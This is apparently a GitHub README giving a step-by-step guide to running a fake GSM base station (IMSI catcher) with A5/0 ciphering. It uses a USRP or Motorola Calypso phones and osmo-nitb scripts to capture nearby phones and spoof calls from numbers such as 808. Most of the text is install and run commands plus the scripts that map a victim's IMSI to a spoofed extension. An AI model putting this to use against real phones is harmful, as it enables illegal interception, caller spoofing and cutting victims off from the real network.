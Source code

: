 # GSM4_IMSICATCHER_HALFMITM_SPOOFING-CALL-WITH-PHYSICAL-MS
* [motorola](https://www.youtube.com/watch?v=ZKa86zAWmQY&pp=ygURZ3NtIHNuaWZmaW5nIDI5YzM%3D) documentation
* [spoofing](https://github.com/godfuzz3r/osmo-nitb-scripts/tree/master)
* [phddays](https://sudonull.com/post/97315-MiTM-Mobile-contest-how-they-broke-mobile-communications-at-PHDays-V-Positive-Technologies-blog)
# Half MITM = Fake BTS only
<p align="center">
  <img width="600" height="400" src="https://github.com/SitrakaResearchAndPOC/GSM_IMSICATCHER_HALFMITM_SPOOFING-SMS-WITH-PHYSICAL-MS/blob/main/2G.jpg">
</p>

# Why it is possible ?
* Fake base station with open ciphering named A5/0, and the  network could be GSM(sms, call), and GPRS, EDGE

# Attack limitations and advantages 
* local attack but could be targeting (to find local victim)
* victim couldn't be reached on the real network (indeed call and sms)
* could be detectable with rooted phone and application like imsi-catcher detector, snoopsnitch because of open network

# Devices  
* USRP
* Two motorolas phone (aka calypso phone on google)

# Pratices
* Install DragonOS 29 or 30 for USRP and debian 9 or 10 for motorola phone
* Create fake bts with open ciphering (A5/0)
* Add one users and modify core network for associating it with number like 8OO or 807 or 808 or 204 or 209 or 121 or 0333300121
* wait for call 


* Solution 1 using USRP
(more stable and no need synchronization of existing BTS so if we jam the existing BTS the half mitm still exists)
```
wget https://raw.githubusercontent.com/SitrakaResearchAndPOC/nitb-script-all/main/osmo-nitb-scripts.zip
```
```
unzip osmo-nitb-scripts.zip
```
```
cd osmo-nitb-scripts
```
Database is at : /var/lib/osmocom/hlr.sqlite3  
Installing all config  
```
bash install_services.sh
```
For avoiding lock database error 
```
fuser -k /var/lib/osmocom/hlr.sqlite3
```
Open HLR.db
```
gedit scripts/HLR.py 
```
Change 
```
self.db = sqlite3.connect(hlr_loc)
```
By
```
self.db = sqlite3.connect(hlr_loc, timeout=3000)
```
Running the transceiver
```
osmo-trx-uhd -C /etc/osmocom/osmo-trx-uhd.cfg
```
Running main_uhd_spoof associate with configs/openbsc_spoof.cfg  
ctrl+shift+T  
```
cd osmo-nitb-scripts
```
```
python3 main_uhd_spoof.py
```
ctrl+shift+T
```
cd osmo-nitb-scripts/scripts_spoof1
```
Tape `*#*#4636#*#*` and choose GSM only on your Android phone  
Search GSM network (on your phone), associate with PLMN MCC 001 && MNC 01  
Tape `*#001#` for finding your phone number (extension with osmo-bts)   
```
bash finding_imsi_extenstion.sh
```
You could find imsi and extension  
let's see for example imsi as 646040222463674 and extension as 126
```
bash set_imsi_extension.sh 646040222463674 808
```
Verify by if the association is correct
let's see for example imsi as 646040222463674 and extension as 808
```
bash finding_imsi_extenstion.sh
```
* solution 2 : Not stable for dragonOS, should install [karly](https://www.youtube.com/watch?v=_nGVeG_76W8&pp=ygUJa2FybHkgZ3Nt)  
For all [karly_installation](https://github.com/SitrakaResearchAndPOC/CalypsoBTS_Debian)  
Use scripts : finding_imsi_extenstion.sh and set_imsi_extension.sh for associating the imsi with extension 808  
Modify the path of database as hlr.sqlite3     
Pratices  (bonification):  
Installing docker on dragonOS where the OS is debian 9 or 10  
Installing all checkout like [karly_installation](https://github.com/SitrakaResearchAndPOC/CalypsoBTS_Debian)  
Use scripts : finding_imsi_extenstion.sh and set_imsi_extension.sh for associating the imsi with extension 808    
Modify the path of database as hlr.sqlite3     
Create a github to just install CALL_SPOOFING on docker with dragonOS 29 oir 30 with the two scripts and test it directly  


 



